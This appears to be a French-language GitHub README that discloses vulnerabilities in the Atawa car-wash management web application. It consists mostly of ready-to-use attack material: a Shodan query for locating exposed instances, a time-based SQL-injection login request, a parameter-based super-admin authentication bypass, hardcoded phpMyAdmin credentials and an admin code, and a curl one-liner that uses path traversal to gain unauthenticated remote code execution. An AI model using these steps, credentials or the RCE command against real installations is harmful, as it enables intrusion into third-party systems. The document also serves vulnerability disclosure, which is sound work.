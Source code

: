 ![autowash-5th-element](https://github.com/Ug0Security/Atawash/assets/28728543/1dd4431c-3469-4514-9398-7ffa71aa71ef)

Je rentre de vacances et j'ai pas de mission..

shodan : http.favicon.hash:-991649870

--- SQLi sur le login mais time based on se fait chier ---


POST /index_connexion_atawa.php?resolution=1920x1080 HTTP/1.1

Host: xx

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-GB,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 19

Origin: xx

Connection: close

Cookie: PHPSESSID=ww

Upgrade-Insecure-Requests: 1


login=test&pwd=test



--- Vlà les manques de controle d'accès sur les fichiers .php dont route sont décritent dans les fichiers js--- 



/choix/choix_version_svg.php?resolution=1920x1080

/config/configubuntu.php?resolution=1920x1080
...


--- Bypass auth super-admin (alors celle la..) ---



/systeme/super_administrateur.php?resolution=1920x1080 (oh lala besoin d'un mdp..)

/systeme/super_administrateur.php?resolution=1920x1080&code=ok (ah non c'est bon)


--- Hardcoded creds ---


/phpmyadminatawa/index.php (MySQL_Atawa:Atawa&13)

/systeme/super_administrateur.php (33310 - hardcoded dans le js..)



--- UnAuth RCE (ayayay vie d'ma mèrrrrrr)---

---------------------------------------------------------------
curl -F "script_name=../../../../../../../../../usr/bin/id" http://url:port/systeme/get_monitor_script.php
---------------------------------------------------------------
